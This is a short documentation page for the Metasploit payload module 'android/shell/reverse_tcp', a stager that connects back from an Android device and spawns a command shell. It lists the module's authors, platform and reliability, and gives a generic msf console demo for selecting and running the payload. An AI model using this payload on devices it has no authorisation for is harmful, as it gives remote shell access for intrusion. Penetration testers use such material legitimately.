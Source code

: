 ## Command Shell, Dalvik Reverse TCP Stager

Spawn a piped command shell (sh). Connect back stager


## Module Name
payload/android/shell/reverse_tcp

## Authors
* mihi
* egypt
* timwr
* OJ Reeves





## Platforms
* android

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/android/shell/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    